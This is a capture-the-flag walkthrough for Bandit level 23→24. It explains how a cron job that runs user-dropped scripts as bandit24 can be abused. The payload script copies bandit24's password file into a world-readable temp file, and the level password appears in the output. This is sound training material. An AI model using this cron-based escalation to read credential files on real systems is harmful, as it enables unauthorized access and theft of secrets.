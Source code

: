 ## Bandit Level 23 → Level 24
Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

> **Note:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **Note:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…  
{: .prompt-info }

```
bandit23@bandit:$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:$

bandit23@bandit:/tmp/t00$ cat payload.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/t00/passwd

bandit23@bandit:/tmp/t00$ touch passwd && chmod 777 passwd
bandit23@bandit:/tmp/t00$ cp payload.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/t00$ cat passwd
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/t00$
```

**Explanation**
- The cron job file (`/etc/cron.d/cronjob_bandit24`) runs a script (`/usr/bin/cronjob_bandit24.sh`) as the user `bandit24`.
- The cron job executes every minute (`* * * * * bandit24`) and on reboot (`@reboot bandit24`).
- The script processes files in `/var/spool/bandit24/foo/` and executes them if they are owned by `bandit23`.
- Since we lack permission to read `/etc/bandit_pass/bandit24`, we created a script (`payload.sh`) that writes the password to a readable file (`/tmp/t00/passwd`) and placed it in the monitored directory (`/var/spool/bandit24/foo/`).
- The cron job executed `payload.sh`, allowing us to retrieve the password.
